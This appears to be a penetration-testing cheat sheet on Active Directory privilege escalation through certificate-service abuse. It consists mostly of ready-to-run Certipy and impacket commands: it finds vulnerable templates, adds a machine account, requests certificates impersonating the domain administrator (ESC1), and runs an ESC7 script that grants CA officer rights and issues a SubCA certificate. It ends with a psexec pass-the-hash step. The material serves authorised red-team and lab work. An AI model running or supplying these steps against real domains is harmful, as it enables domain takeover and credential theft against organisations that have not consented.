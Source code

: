 ```yaml
---
title: AD Privilege Escalation
---
```


# Active Directory Privilege Escalation

- [Hacktricks CS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Hacktricks Certificates](https://book.hacktricks.xyz/crypto-and-stego/certificates)
- [impacket](https://github.com/fortra/impacket)
- [certipy](https://github.com/ly4k/Certipy)

## Certificate Authority stuff

```bash
certipy-ad find -u my_user -p my_password123 -dc-ip 10.10.10.10
```

In the `.txt` file, look for:
```bash
# Template Name                       : ESC1
# Display Name                        : Escee 1
# Certificate Authorities             : COMPANY-CA
# ...
Enabled                             : True
Enrollee Supplies Subject           : True
Enrollment Rights                   : Company.org\Domain Computers
Enrollment Rights                   : Company.org\Domain Users
```

### Enrollment Rights Domain Computers
```bash
python impacket/examples/addcomputer.py company.org/my_user:'my_password123' -dc-ip 10.10.10.10 -computer-name "newcomputer1" -computer-pass 'newpass1'
```
```bash
certipy-ad req -username 'newcomputer1$' -password 'newpass1' -ca 'COMPANY-CA' -target 10.10.10.10 -template 'ESC1' -upn "administrator@company.org" -dns dns.company.org
```
```bash
certipy-ad auth -pfx administrator_company.pfx -dc-ip 10.10.10.10 -ldap-shell
```

## Vulnerable Certificate Authority Access Control - ESC7
- [Hacktricks ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7)
```bash
#!/bin/bash

theca='xxxx-DC01-CA'
theuser='xxx@xxx.com'
theusername='xxxxx'
theadmin='administrator@xxx.com'
thepassword='xxxxxxxxx'
theip='x.x.x.x' 
thetarget='xxx.com'

certipy-ad ca -ca $theca -add-officer $theusername -username $theuser -password $thepassword -dc-ip $theip
certipy-ad ca -ca $theca -enable-template SubCA -username $theuser -password $thepassword -dc-ip $theip

REQUEST_ID=$(echo "y" | certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -template SubCA -upn $theadmin -dc-ip $theip | awk -F' ' '/Request ID is/ {print $5}')
echo "Request ID: $REQUEST_ID"

certipy-ad ca -ca $theca -issue-request $REQUEST_ID -username $theuser -password $thepassword -dc-ip $theip
certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -retrieve $REQUEST_ID -dc-ip $theip

certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetarget -dc-ip $theip
```

```bash
# this returns a hash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetargetdomain -dc-ip $theip

# use the hash here
python psexec.py -hashes hhhhhhhh:hhhhhhhhh administrator@xxxx.com
```

